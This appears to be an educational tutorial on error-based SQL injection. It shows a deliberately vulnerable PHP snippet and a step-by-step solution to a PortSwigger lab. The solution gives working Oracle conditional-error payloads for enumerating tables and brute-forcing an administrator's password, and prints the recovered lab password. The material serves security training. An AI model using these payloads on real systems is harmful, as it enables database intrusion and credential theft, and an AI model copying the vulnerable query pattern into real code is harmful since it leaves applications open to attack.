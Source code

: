 # SQL Injection: Error-Based SQL Injection

## Introduction

Error-Based SQL Injection is a type of SQL injection attack where attackers exploit database error messages to gather information about the structure of the database. By intentionally causing errors, attackers can infer details such as table names, column names, and data types, which can then be used to craft more sophisticated SQL injection attacks.

## Table of Contents

- [SQL Injection: Error-Based SQL Injection](#sql-injection-error-based-sql-injection)
  - [Introduction](#introduction)
  - [Table of Contents](#table-of-contents)
  - [How to identify](#how-to-identify)
  - [Code/tools/websites](#codetoolswebsites)
    - [Code Snippets](#code-snippets)
    - [Tools](#tools)
    - [Websites](#websites)
  - [Sample problem](#sample-problem)
    - [Problem Statement](#problem-statement)
    - [Solution](#solution)
  - [References](#references)
  - [Conclusion](#conclusion)

## How to identify

To identify Error-Based SQL Injection vulnerabilities, look for web applications that display detailed database error messages. Typical indicators include:

1. **Error Messages:** Inputting certain characters (like single quotes) or SQL keywords (like `SELECT`) results in database error messages being displayed on the web page.
2. **Behavior Testing:** Entering SQL syntax that causes deliberate errors to see if the application leaks information through error messages.
3. **Code Analysis:** Examining the backend code to see if error messages are properly handled or exposed to users.

Example:
```plaintext
http://example.com/product.php?id=1'
```
If this input produces an error message revealing database details, the site may be vulnerable to this attack.

## Code/tools/websites

### Code Snippets
Here is an example of a vulnerable PHP code snippet:
```php
<?php
$id = $_GET['id'];
$query = "SELECT * FROM products WHERE id = '$id'";
$result = mysqli_query($conn, $query);
if (!$result) {
    die("Database error: " . mysqli_error($conn));
}
?>
```

### Tools
- **SQLMap:** An automated tool for SQL injection and database takeover.
- **Burp Suite:** A web vulnerability scanner with tools for manual testing.
- **Havij:** An automated SQL injection tool.

### Websites
> https://www.hackthebox.com/: Great place to learn and practice problems
>
> https://picoctf.com/: They have many labs and past question which you can try with great write-ups available online.

## Sample problem

### Problem Statement
You are given access to a web application that uses a tracking [cookie](https://dev.to/arikaturika/web-cookies-beginners-guide-28lh) for analytics, and performs a SQL query containing the value of the submitted cookie.

If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. 

Identify if the application is vulnerable to Error-Based SQL Injection and extract the password of the administrator user.

[Link to the lab](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

<details>

<summary>HINT</summary>

The query will look something like this:

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```
</details>

### Solution

<details>
<summary>Click to reveal the solution</summary>

#### Confirm vulnerable parameter

Due to the type of vulnerability, we can neither see any result of the query nor any difference in output based on the truth value of some condition. However, if we can craft requests that cause (or don't cause) a database error based on a condition we inject, we can infer the truth value based on the fact whether an error is shown or not.

So as a first step we need to confirm that the parameter is vulnerable by crafting requests that give `normal` and `error` answers.

Injecting a single quote raises a server error, injecting two single quotes does not. This indicates an injection possibility, so try injecting some SQL statements. Injecting `'||(SELECT+null)||'` still shows an error, however injecting `'||(SELECT+null+FROM+dual)||'` does not. Therefore the database driving the page is an Oracle DB.

#### Find 'normal' and 'error' statements

On the [sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) provided in the [introduction section](README.md), a conditional error example is given: 
```sql
SELECT CASE WHEN (<CONDITION>) THEN to_char(1/0) ELSE NULL END FROM dual
```

For the `normal` query, we take an input that evaluates to `FALSE`, thus not hitting our division by zero.

```sql
SELECT trackingId FROM someTable WHERE trackingId = X'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

The content of the cookie for the `normal` case that displays the page as normal is

```sql
'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

The `error` case has a condition that evaluates to true, thus causing the database to execute the division by zero which results in an `internal server error`:

```sql
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

Now we have a way to distinguish the result of a boolean condition.

#### Confirm database table and columns

The next step is to confirm that the `users` table actually exists in the database. For this, select from it and use the oracle version of limiting the number of output rows:

```sql
'||(SELECT username||password FROM users WHERE rownum=1)||'
```

It shows the page, confirming that this is a valid query and thus, that the table name and both column names are valid as well.

You can also confirm that invalid names in either of the fields result in an invalid query and an `internal server error`.

#### Confirm user exists in the database

To confirm that the user exists in the database it is not possible to inject a simple `'||(select username from users where username='administrator')||'`. This is a valid statement regardless of the existence of the user. As such, it shows the page regardless of the username used.

To cause an error, we extend it by performing the division by zero if the username exists. This statement results in an `internal server error`, indicating that the query resulted in the division by zero:

```sql
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'
```

Changing the username to an arbitrary value, the page is shown. This confirms that the condition `1=1` and the following division by zero depend on whether the `FROM users WHERE...` part returns something.

This confirms that the user `administrator` exists in the database.

#### Get the length of the password (could be hash as well)

Getting the length is done easily by adding the `LENGTH` function at the end of the SQL condition.

```sql
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and LENGTH(password)=1)||'
```

This will show the page, indicating that the `1=1` check was never executed. Using Burp Intruder, you can test all numbers from 1 to 50 as length, and get this result:

![Length of password](../../../assets/error-based-blind-sqli/length_of_password.png)

Thus we now know that the password is exactly 20 characters long.

#### Enumerate the password of the user administrator

Now that we have the length of the password, we can brute force each character individually. If the database would store a hash of the password, we could extract the hash for offline cracking.

```sql
'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and SUBSTR(password,1,1)='a')||'
```

This shows the page, indicating that the first letter is not an `a`. Use Burp Intruder again to brute force all 20 characters.

![Brute force password](../../../assets/error-based-blind-sqli/brute_force_password_query.png)

Attack type: *Cluster bomb*

- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force - for real-life, add special characters

Filtering on server errors again, we can read the password: `3bk8bdchxubqft2tgsxr`

![Brute force password, result](../../../assets/error-based-blind-sqli/brute_force_of_password_result.png)

### Alternative

It is also possible to move the conditional check (e.g. the length of the substring part) into the condition of the `SELECT CASE WHEN` portion.

```sql
'||(SELECT CASE WHEN (substr(password,1,1)='a') THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'
```

For the length, the string is shown in below:

![Condition in a different location](../../../assets/error-based-blind-sqli/condition_different_location.png)


</details>


## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection)
- [SQLMap Documentation](https://sqlmap.org/)

## Conclusion

Error-Based SQL Injection leverages detailed error messages from the database to gather information about its structure and contents. Identifying and exploiting these vulnerabilities requires understanding the behavior of SQL queries and error handling mechanisms. By practicing with tools and exercises, you can improve your skills in detecting these vulnerabilities.